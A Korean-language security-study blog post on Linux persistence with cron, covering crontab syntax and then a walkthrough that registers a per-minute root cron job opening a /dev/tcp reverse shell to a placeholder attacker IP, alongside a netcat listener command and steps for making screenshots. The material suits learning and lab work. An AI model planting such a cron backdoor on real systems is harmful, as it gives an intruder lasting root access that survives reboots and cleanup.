 ```yaml
---
layout: post
title: "cron 공부"
date: 2025-09-06 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

지속성`Persistence`은 공격자가 시스템 재부팅 · 세션 종료 · 초기 침투에 사용된 취약점이 패치된 후에도 시스템에 대한 접근 권한을 계속 유지하는 기술이다. 권한을 획득한 것만큼이나 그 권한을 잃지 않는 것이 중요하며 리눅스 환경에서는 주기적으로 명령을 실행하는 `cron` 스케줄러가 지속성 확보를 위한 주요 수단으로 사용된다.

---

### 2. cron 기본

`cron`은 특정 시간에 지정된 작업을 자동으로 실행하는 리눅스의 데몬이다. 사용자는 `crontab` 파일을 수정하여 작업을 예약할 수 있다.

*   **주요 경로:**
    *   `/etc/crontab`: 시스템 전체에 적용되는 cron 작업 파일. 사용자 계정을 지정하여 명령을 실행할 수 있다.
    *   `/var/spool/cron/crontabs/`: 사용자별 crontab 파일이 저장되는 디렉터리. `root` 사용자의 crontab은 여기에 위치한다.
*   **형식:**
    ```
    # ┌───────────── 분 (0 - 59)
    # │ ┌───────────── 시 (0 - 23)
    # │ │ ┌───────────── 일 (1 - 31)
    # │ │ │ ┌───────────── 월 (1 - 12)
    # │ │ │ │ ┌───────────── 요일 (0 - 6)
    # │ │ │ │ │
    # * * * * * <사용자> <실행할 명령어>
    ```

---

### 3. 사용 예시: crontab을 이용한 리버스 쉘 연결

이전 게시글에서 `root` 권한을 획득한 공격자가 매 분마다 공격자 PC로 리버스 쉘을 연결하는 cron 작업을 등록하여 시스템에 대한 영구적인 백도어를 생성하는 상황이다.

#### **1. 공격자 리스너 실행**
공격자 PC에서 `netcat`을 이용해 4444번 포트에서 연결을 대기한다.
```bash
nc -lvnp 4444
```

#### **2. 대상 서버에 cron 작업 등록**
획득한 `root` 쉘에서 `root` 사용자의 crontab에 1분마다 리버스 쉘을 실행하는 작업을 추가한다. `crontab -e`를 사용하는 대신 `echo`와 파이프를 이용하여 비대화형(non-interactive) 방식으로 작업을 등록할 수 있다.
```bash
# 기존 crontab 내용을 유지하면서 새 작업을 추가
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1") | crontab -
```

#### **3. 연결 수신 확인**
cron 작업이 등록되고 1분 이내에 공격자 PC의 `netcat` 리스너는 대상 서버로부터 들어오는 `root` 권한의 쉘 연결을 수신하게 된다.
   ![CronShell](/assets/images/Cron_1.png)

이제 대상 서버가 재부팅되거나 다른 관리자가 악성 프로세스를 종료시키더라도 `cron` 데몬은 매 분마다 공격자에게 다시 쉘을 제공하므로 공격자는 시스템에 대한 통제권을 잃지 않게 된다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **Crontab 설정 및 리버스 쉘 수신 비교 이미지 제작**

이 이미지는 원인(cron 작업 등록)과 결과(쉘 연결 수신)를 명확하게 보여줍니다.

**1. "Before" 이미지 (Crontab 설정)**

1.  (준비) `GTFOBins` 등을 통해 `root` 권한을 획득한 **대상 서버(Target)**의 터미널 창을 준비합니다.
2.  `crontab -l` 명령을 실행하여 현재 등록된 cron 작업이 없는 것을 보여줍니다. (오류가 나거나 아무것도 출력되지 않음)
3.  위 `3. 사용 예시` 섹션의 2번 명령어 `(crontab -l ...)`를 실행하여 리버스 쉘 작업을 등록합니다.
4.  `crontab -l` 명령을 다시 실행하여, `* * * * * /bin/bash ...` 라인이 성공적으로 추가되었음을 보여줍니다.
5.  이 과정이 모두 담긴 **대상 서버**의 터미널 화면을 스크린샷으로 찍어 **`Crontab_설정.png`** 로 저장합니다.

**2. "After" 이미지 (Reverse Shell 수신)**

1.  (준비) **공격자 PC(Attacker)**의 터미널에서 `nc -lvnp 4444` 명령어를 실행하여 리스닝 상태로 둡니다.
2.  **대상 서버**에서 cron 작업이 실행될 때까지 최대 1분간 기다립니다.
3.  시간이 되면 **공격자 PC**의 터미널에 `connect to ...` 메시지와 함께 `root@ubuntu...` 와 같은 `root` 프롬프트가 나타납니다.
4.  `whoami` 명령어를 실행하여 `root`가 출력되는 것을 추가로 보여줍니다.
5.  이 연결 수신 및 명령어 실행 결과가 보이는 **공격자 PC**의 터미널 화면을 스크린샷으로 찍어 **`Reverse_Shell_수신.png`** 로 저장합니다.

**3. 최종 이미지 편집**

1.  이미지 편집 프로그램에서 `Crontab_설정.png`(왼쪽)와 `Reverse_Shell_수신.png`(오른쪽)를 나란히 배치합니다.
2.  각 이미지 위에 "**대상 서버 (Crontab 설정)**"과 "**공격자 PC (Reverse Shell 수신)**" 텍스트를 추가합니다.
3.  왼쪽 이미지에서는 `crontab -l` 결과로 출력된 리버스 쉘 명령어 라인에 하이라이트를 적용합니다.
4.  오른쪽 이미지에서는 새로 획득한 `root` 프롬프트와 `whoami` 결과에 하이라이트를 적용하여, cron 작업을 통해 쉘을 획득했음을 명확히 보여줍니다.
5.  수정된 이미지를 저장하여 게시글에 삽입합니다.